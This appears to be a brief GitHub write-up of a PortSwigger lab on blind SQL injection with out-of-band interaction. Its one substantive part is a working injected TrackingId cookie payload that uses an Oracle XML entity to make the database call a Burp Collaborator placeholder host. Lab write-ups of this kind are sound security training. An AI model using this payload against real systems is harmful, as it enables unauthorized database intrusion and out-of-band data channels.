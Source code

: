 ## Welcome, my friend. Today we will start the [17. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/0dd3bfde-e923-4cba-82f8-fe7cfa2bd47b)


### This lab need burp pro for using Burp Collaborator. We add this payload:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

![image](https://github.com/user-attachments/assets/be7d0a03-a792-41ce-a337-6a2af7a01cbb)





-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
